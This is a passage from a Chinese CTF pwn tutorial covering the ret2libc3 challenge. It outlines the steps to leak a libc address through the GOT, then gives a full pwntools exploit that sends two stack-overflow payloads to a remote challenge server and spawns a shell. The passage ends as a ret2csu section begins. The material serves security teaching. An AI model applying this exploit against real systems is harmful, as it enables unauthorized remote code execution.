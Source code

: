 eg3:

[ret2libc3](https://github.com/ctf-wiki/ctf-challenges/raw/master/pwn/stackoverflow/ret2libc/ret2libc3/ret2libc3)

2的基础上去掉了system的地址。

got 表泄露libc的函数地址

利用思路：

- 泄露 __libc_start_main 地址

- 获取 libc 版本

- 获取 system 地址与 /bin/sh 的地址

- 再次执行源程序

- 触发栈溢出执行 system(‘/bin/sh’)

exp:

```python
from pwn import *
from LibcSearcher import LibcSearcher

context(log_level = 'debug',arch ='i386',os = 'linux' )
# io = process('./ret2libc3')
io = remote("47.106.212.155",10008)
elf = ELF('./ret2libc3')
puts_plt = elf.plt['puts']
start_main_got = elf.got['__libc_start_main']
main = elf.symbols['main']

payload = flat(["A"*112,puts_plt,main,start_main_got])
io.sendlineafter("Can you find it !?",payload)

libc_start_main_addr = u32(io.recv()[0:4])
libc = LibcSearcher('__libc_start_main',libc_start_main_addr)
libcbase = libc_start_main_addr-libc.dump("__libc_start_main")
sym_addr = libcbase+libc.dump('system')
binsh_addr = libcbase+libc.dump('str_bin_sh')

payload = flat(["A"*112,sym_addr,"bbbb",binsh_addr])
io.sendline(payload)
io.interactive()
```

### 中级ROP

### ret2csu

利用 x64 下的 __libc_csu_init 中的 gadgets.

eg:level5:
